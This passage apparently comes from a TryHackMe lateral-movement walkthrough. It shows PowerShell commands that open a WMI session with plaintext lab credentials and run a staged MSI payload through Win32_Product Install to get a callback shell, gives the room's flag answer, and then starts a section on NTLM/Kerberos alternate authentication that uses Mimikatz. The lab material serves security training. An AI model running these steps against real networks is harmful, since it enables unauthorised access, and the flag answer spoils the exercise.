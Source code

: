 Let's start a WMI session against THMIIS from a Powershell console:

THMJMP2: Powershell
```
PS C:\> $username = 't1_corine.waters';
PS C:\> $password = 'Korine.1994';
PS C:\> $securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
PS C:\> $credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
PS C:\> $Opt = New-CimSessionOption -Protocol DCOM
PS C:\> $Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

We then invoke the Install method from the Win32_Product class to trigger the payload:

THMJMP2: Powershell:
```
PS C:\> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

As a result, you should receive a connection in your AttackBox from where you can access a flag on t1_corine.waters desktop.

> After running the "flag.exe" file on t1_corine.waters desktop on THMIIS, what is the flag? `THM{MOVING_WITH_WMI_4_FUN}`

***

## <strong><font color="#34A5DA">Use of Alternate Authentication Material</font></strong>

By alternate authentication material, we refer to any piece of data that can be used to access a Windows account without actually knowing a user's password itself. This is possible because of how some authentication protocols used by Windows networks work. In this task, we will take a look at a couple of alternatives available to log as a user when either of the following authentication protocols is available on the network:

* NTLM authentication
* Kerberos authentication

**Note**: During this task, you are assumed to be familiar with the methods and tools to extract credentials from a host. Mimikatz will be used as the tool of choice for credential extraction throughout the room.

### <font color="#FFA500">NTLM Authentication</font>

Before diving into the actual lateral movement techniques, let's take a look at how NTLM authentication works:
